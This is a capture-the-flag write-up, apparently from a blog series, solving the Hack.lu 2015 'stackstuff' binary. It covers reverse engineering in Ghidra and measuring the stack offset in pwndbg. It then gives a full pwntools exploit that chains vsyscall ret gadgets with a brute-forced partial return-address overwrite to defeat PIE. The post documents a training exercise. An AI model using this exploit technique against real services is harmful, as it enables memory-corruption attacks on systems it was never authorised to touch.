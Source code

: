 ```yaml
---
layout: post
title: Hacklu 2015 stackstuff
date: 2025-07-07 00:23:09 +0300
categories: Nightmare-series partial-overwrite
tags: nightmare buffer-overflow vsyscall x64 partial-overwrite brute-force
---
```


## Information 
- Category: Pwn
- Points:  --

## Description
> None

## Write-up
First, let’s run the program and see what it does:
<img src="/images/stuff/run.png" style="border-radius: 14px;">

As you can see, nothing happens when we run the program.
So let's do some reverse engineering to figure out what it's actually doing.

<img src="/images/stuff/rev.png" style="border-radius: 14px;">

As you can see, the program is listening on port ```0x5ea```, which is ```1514``` in decimal (after applying ```htons```).
So we can interact with the program using **netcat** on ```localhost``` port ```1514```:
```bash 
nc 127.0.0.1 1514

```
Now we want to see what the program is actually doing by connecting to port 1514 and checking its response.

<img src="/images/stuff/a.png" style="border-radius: 14px;">

Now we know that the program first reads an integer as a length, then reads that number of bytes from our input.
To check if there's a **buffer overflow**, we need to understand the logic behind this behavior.
So let’s go back to **Ghidra** and find the function that handles this input to analyze it more closely.

<img src="/images/stuff/p.png" style="border-radius: 14px;">

> From the reference string, you can find the function and use **Xref** to locate where it's called.
{: .prompt-tip}

<img src="/images/stuff/l.png" style="border-radius: 14px;">

The program uses ```fread()``` and lets the user decide how many bytes to read.
This makes it easy to create a **buffer overflow** by giving it a large size.

In the next step, we’ll calculate the offset to the **return address**.
But how do we do that?
We'll use **pwndbg** and set a breakpoint inside fread to examine the stack and memory layout.

```bash
gdb -q stackstuff
pwndbg: loaded 201 pwndbg commands. Type pwndbg [filter] for a list.
pwndbg: created 13 GDB functions (can be used with print/break). Type help function to see them.
Reading symbols from stackstuff...
Download failed: Connection refus
.
.
.
pwndbg> b*check_password_correct + 167
Breakpoint 1 at 0xf79
pwndbg> start
...
pwndbg> c
```

Then, make sure the program is listening by connecting to it:
```
nc 127.0.0.1 1514
Hi! This is the flag download service.
To download the flag, you need to specify a password.
Length of password: 4
ABCD
```
Now, after sending some random data to the program, let’s switch to **pwndbg** and see what’s happening under the hood:
```bash

[Switching to Thread 0x7ffff7dae740 (LWP 113323)]

Thread 2.1 "exe" hit Breakpoint 1, 0x0000555555400f79 in check_password_correct ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─[ REGISTERS / show-flags off / show-compact-regs off ]──
 RAX  0x7fffffffdec0 ◂— 0
 RBX  0
 RCX  0x7ffff7f978e0 (_IO_2_1_stdin_) ◂— 0xfbad2088
 RDX  4
 RDI  0x7fffffffdec0 ◂— 0
 RSI  1
 R8   0
 R9   0
 R10  0
 R11  0x202
 R12  0x7fffffffe0f8 —▸ 0x7fffffffe53d ◂— 0x4100636578656572 /* 'reexec' */
 R13  1
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe310 —▸ 0x555555400000 ◂— jg 0x555555400047
 R15  0
 RBP  0x7fffffffe070 —▸ 0x7fffffffe0d0 ◂— 0
 RSP  0x7fffffffdeb0 —▸ 0x7fffffffdee0 ◂— 0
 RIP  0x555555400f79 (check_password_correct+167) ◂— call fread@plt
──────────[ DISASM / x86-64 / set emulate on ]───────────
 ► 0x555555400f79 <check_password_correct+167>    call   fread@plt                   <fread@plt>
        ptr: 0x7fffffffdec0 ◂— 0 
        size: 1
        n: 4
        stream: 0x7ffff7f978e0 (_IO_2_1_stdin_) ◂— 0xfbad2088

... ↓            5 skipped
──────────────────────[ BACKTRACE ]──────────────────────
 ► 0   0x555555400f79 check_password_correct+167
...
pwndbg> p/x $rdi
$2 = 0x7fffffffdec0
pwndbg> i f
Stack level 0, frame at 0x7fffffffdf10:
 rip = 0x555555400f79 in check_password_correct;
    saved rip = 0x555555400fd1
 called by frame at 0x7fffffffdf20
 Arglist at 0x7fffffffdea8, args:
 Locals at 0x7fffffffdea8, Previous frame's sp is 0x7fffffffdf10
 Saved registers:
  rip at 0x7fffffffdf08
pwndbg> p/x 0x7fffffffdf08 - $2
$3 = 0x48
pwndbg>
```
So the offset is ```0x48``` (72 bytes).
That means we need to send **72 bytes** to reach and control the return address.

> The program has **PIE** and **NX** mitigations enabled.
{: .prompt-info}

Before exiting ```pwndbg```, there’s one important thing to note:
The **stack must be properly aligned** before calling a function — especially when we're trying to return into one to get the flag.

Since this binary has **PIE** enabled, we can’t hardcode return addresses as usual.
But there's a trick: we can use a **vsyscall** address as a fake ```ret``` instruction.

```vsyscall``` is an old mechanism for system calls. Its address is **static** and doesn't change, even with PIE.

This makes it useful as a **ROP NOP** — a return instruction that helps us align the stack or chain our gadgets safely.
```bash
pwndbg> vmmap
...
0xffffffffff600000 0xffffffffff601000 --xp     1000       0 [vsyscall]
pwndbg>
```

Earlier, we mentioned that there’s a hidden function in the binary that prints the flag — but where is it exactly?

In **Ghidra**, we can find it easily. Here's what it looks like:
<img src="/images/stuff/o.png" style="border-radius: 14px;">

As you can see, this function directly calls the flag-printing logic.
Our goal is to redirect execution to this function after bypassing protections.

```bash
   0x0000555555401086 <+172>:	call   0x555555400fba <require_auth>
   0x000055555540108b <+177>:	lea    rsi,[rip+0x36d]        # 0x5555554013ff
   0x0000555555401092 <+184>:	lea    rdi,[rip+0x3b6]        # 0x55555540144f
   0x0000555555401099 <+191>:	call   0x555555400cd0 <fopen@plt>
```
Now we have a function that opens the flag, located at address ending in ```0x8b``` (```0x55555540108b```).
Because the binary uses **PIE**, the base address is randomized — but **the last byte stays the same**.

That means we only need to **brute-force the upper byte(s)** of the address.
Since PIE randomizes a small portion (typically 4 bits in local), there are only ```2^4 = 16``` possibilities.

So, with at most **16 attempts**, we can guess the correct address and jump to the flag function.

## Exploit
```python
from pwn import *

context.binary = './stackstuff'
context.log_level = 'debug'

vsyscall_ret = p64(0xffffffffff600800)
padding = b"A" * 0x48
fixed_byte = b"\x8b"

def conn():
    return remote('127.0.0.1', 1514)

def make_payload(i):
    return padding + vsyscall_ret * 2 + fixed_byte + bytes([i])

def send_payload(r, payload):
    try:
        r.sendline(b'90')
        r.sendline(payload)
        r.recvuntil(b"Length of password: ")
        line = r.recvline(timeout=2)
        log.success(f"Flag line: {line.decode(errors='ignore')}")
        return True
    except EOFError:
        return False
    except Exception as e:
        log.warning(f"Exception while receiving: {e}")
        return False

def main():
    i = 0x00
    while i <= 0xFF:
        log.info(f"Trying byte: {hex(i)}")
        r = conn()
        payload = make_payload(i)
        if send_payload(r, payload):
            log.success(f"Correct byte found: {hex(i)}")
            pause()
            break
        else:
            log.info(f"Byte {hex(i)} failed.")
            i += 0x10
        r.close()

if __name__ == "__main__":
    main()
```

## Flag
Flag: ```flag{g0ttem_b0yz}```
